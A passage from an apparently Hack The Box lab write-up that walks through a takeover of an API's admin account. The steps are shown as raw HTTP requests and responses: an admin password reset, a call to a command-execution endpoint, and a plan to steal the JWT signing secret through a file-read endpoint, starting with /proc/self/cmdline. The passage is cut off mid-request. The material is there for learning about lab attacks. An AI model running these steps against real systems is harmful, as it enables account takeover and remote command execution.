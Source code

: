 ```http
}
```
As we can see as response we get:  
```http
HTTP/1.1 201 Created
date: Wed, 27 Jul 2022 17:04:03 GMT
server: uvicorn
content-length: 241
content-type: application/json
Connection: close

{"date":null,"id":1,"is_superuser":true,"hashed_password":"$2b$12$iABrm/kqQNQ0XAsAv1S1r.8qx2NFrJ2QVYTPRMtk3dyal5FvIACPy","guid":"36c2e94a-4271-4259-93bf-c96ad5948284","email":"admin@htb.local","time_created":1649533388111,"last_update":null}
```
So, we can assume that we successfully changed the password for the admin account.  
Now that the password is changed, we can try to get a JWT token for the admin user and run a command using the `/exec` endpoint.  
```http
GET /api/v1/admin/exec/whoami HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Connection: close
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMxMTUyLCJpYXQiOjE2NTg5Mzk5NTIsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOmZhbHNlLCJndWlkIjoiOGE1ODY4MTgtN2MwMS00YzhiLTg3ZmItZTE3ZTRlYTU0NTc3In0.Hjw6uONnhht4gMq3-xb6s_WAbKqCdSdF8LA7Tb-b9rg
Content-Length: 2
```
As we can see as a response we get:  
```http
HTTP/1.1 400 Bad Request
date: Wed, 27 Jul 2022 17:07:56 GMT
server: uvicorn
content-length: 39
content-type: application/json
Connection: close

{"detail":"Debug key missing from JWT"}
```
So now, we can assume that to make this work we'll need to forge a new JWT token containing the debug key.  
To do this, we'll need to sign a new JWT token. As we know, to sign a new JWT token we'll need the secret.  
To try to obtain the seecret, we can use the `/file` endpoint.  
First of all we can get some information from proc.  
We can check for `/proc/self/cmdline`:
```http
POST /api/v1/admin/file HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Content-Type: application/json
Origin: http://10.10.11.161
Content-Length: 34
Connection: close
Sec-GPC: 1
```